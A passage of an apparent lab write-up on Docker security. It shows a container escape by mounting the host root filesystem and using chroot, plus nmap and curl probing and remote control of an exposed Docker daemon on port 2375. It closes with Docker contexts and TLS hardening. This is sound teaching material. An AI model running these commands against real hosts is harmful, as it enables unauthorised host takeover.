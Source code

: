 **Vulnerability 2: Escaping via Exposed Docker Daemon**
If the docker daemon is running on the privileged mode then we can mount the root directory to the mnt directory of our docker container and escape the container shell and access the files of other users.

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![Pasted image 20250729164016.png](/placeholder.svg?height=400&width=600&query=Pasted%20image%2020250729164016.png)

**Vulnerability 3: Remote Code Execution via Exposed Docker Daemon**

By default docker runs in port 2375 which can be found via nmap scan. If mis-configured, we can execute commands directly remotely without having access to the machine.

```shell
nmap -sV -p 2375 ip
```

![Pasted image 20250729165352.png](/placeholder.svg?height=400&width=600&query=Pasted%20image%2020250729165352.png)

We can get the version sending a curl request to http://ip:2375/version.

```shell
curl http://10.10.222.250:2375/version
```

![Pasted image 20250729165511.png](/placeholder.svg?height=400&width=600&query=Pasted%20image%2020250729165511.png)

**Checking the Running Containers**

```shell
docker -H tcp://ip:2375 ps
```

![Pasted image 20250729165604.png](/placeholder.svg?height=400&width=600&query=Pasted%20image%2020250729165604.png)

**Docker Context**
Docker context allows developer to save and swap profiles for configurations with other devices.

```shell-session
client@thm:~# docker context create
--docker host=ssh://myuser@remotehost
--description="Development Environment" 
development-environment-host 

Successfully created context "development-environment-host"
```
Once the context is made we can execute commands on it.
```shell
cmnatic@thm:~# docker context use development-environment-host  

Current context is now "development-environment-host"
```
To revert to default context we can use following command.
```shell
docker context use default
```
**TLS Encryption:**
We can use TLS certificate  to encrypt data sent between devices. When configured in TLS mode, Docker will only accept remote commands from devices that have been signed against the device you wish to execute Docker commands remotely.
```shell
server@thm:~# dockerd --tlsverify --tlscacert=myca.pem --tlscert=myserver-cert.pem --tlskey=myserver-key.pem -H=0.0.0.0:2376
```

